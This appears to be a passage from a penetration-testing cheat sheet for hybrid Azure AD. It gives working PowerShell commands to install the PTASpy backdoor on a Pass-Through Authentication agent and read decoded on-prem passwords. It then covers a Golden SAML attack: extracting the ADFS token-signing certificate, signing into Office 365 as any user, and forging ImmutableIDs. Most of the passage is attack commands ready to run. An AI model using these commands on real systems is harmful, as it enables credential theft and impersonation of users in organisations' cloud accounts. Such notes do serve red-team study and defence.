 #### Install a backdoor (needs to be run ad administrator)
```
Install-AADIntPTASpy
```

### See passwords of on-prem users authenticating
- Stored in C:\PTASpy
```
Get-AADIntPTASpyLog -DecodePasswords
```

#### Register a new PTA agent
- After getting Global Administrator privileges by setting it on a attacker controled machine.
```
Install-AADIntPTASpy
```

## Federation (ADFS)
- Golden SAML Attack
#### Get the ImmutableID
```
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

#### On ADFS server (As administrator)
```
Get-AdfsProperties |select identifier
```

#### Check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
```
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri
```

#### Extract the ADFS token signing certificate
- With DA privileges on-prem
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Access cloud apps as any user
```
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

### With DA privileges on-prem, it is possible to create ImmutableID of cloud only users!
#### Create a realistic ImmutableID
```
[System.Convert]::ToBase64String((New-Guid).tobytearray())
```
